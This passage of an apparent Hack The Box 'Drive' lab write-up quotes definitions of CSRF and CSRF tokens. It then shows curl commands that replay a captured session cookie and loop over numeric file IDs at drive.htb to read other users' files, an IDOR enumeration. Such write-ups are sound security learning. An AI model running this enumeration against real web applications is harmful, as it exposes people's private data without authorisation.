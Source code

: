 > A **CSRF** token is a secure random token (e.g., synchronizer token or challenge token) that is used to prevent **[CSRF](https://portswigger.net/web-security/csrf){:target="_blank"}** attacks. The token needs to be unique per user session and should be of large random value to make it difficult to guess. A CSRF secure application assigns a unique CSRF token for every user session.

> **[Cross-Site Request Forgery (CSRF)](https://portswigger.net/web-security/csrf){:target="_blank"}** is an attack that forces authenticated users to submit a request to a Web application against which they are currently authenticated. **CSRF** attacks exploit the trust a Web application has in an authenticated user. A **CSRF** attack exploits a vulnerability in a Web application if it cannot differentiate between a request generated by an individual user and a request generated by a user without their consent.

```bash
echo oldboy\ was\ here > test.txt
# --> http://drive.htb/home/
# --> Files --> Upload file     --> test.txt --> Just View      :)

curl -s -X GET http://drive.htb/112/getFileDetail/ --cookie 'csrftoken=j6R7t82ASjQdCBqwG6QnBCzQGN4qscBC; sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm'          # :)
curl -s -X GET http://drive.htb/112/getFileDetail/ --cookie 'csrftoken=j6R7t82ASjQdCBqwG6QnBCzQGN4qscBC; sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | sed -n '/collapse mt-4">/,/<br/p' | grep -v demo | tr -d '<br>'

# csrftoken not neccesary!
curl -s -X GET http://drive.htb/112/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | sed -n '/collapse mt-4">/,/<br/p' | grep -v demo | tr -d '<br>'

curl -s -X GET http://drive.htb/1/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | sed -n '/collapse mt-4">/,/<br/p' | grep -v demo | tr -d '<br>'
curl -s -X GET http://drive.htb/1/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm'
#    --> {"status": "Internal Server Error", "message": "No File matches the given query."}%

curl -s -X GET http://drive.htb/1/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | grep -v "Internal Server"
curl -s -X GET http://drive.htb/112/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | grep -v "Internal Server" | sed -n '/collapse mt-4">/,/<br/p' | grep -v demo | tr -d '<br>'

for i in $(seq 1 200); do curl -s -X GET http://drive.htb/$i/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | grep -v "Internal Server" | sed -n '/collapse mt-4">/,/<br/p' | grep -v demo | tr -d '<br>'; done

for i in $(seq 100 200); do echo "[+] File $i content --> "; curl -s -X GET http://drive.htb/$i/getFileDetail/ --cookie 'sessionid=75ompmdd9i4uq2yh4oks6yrg220pvmjm' | grep -v "Internal Server" | sed -n '/collapse mt-4">/,/<br/p' | grep -v demo | tr -d '<br>'; done
#        :) Nothing Interesting
```

<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_011.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_012.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_013.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_014.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_015.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
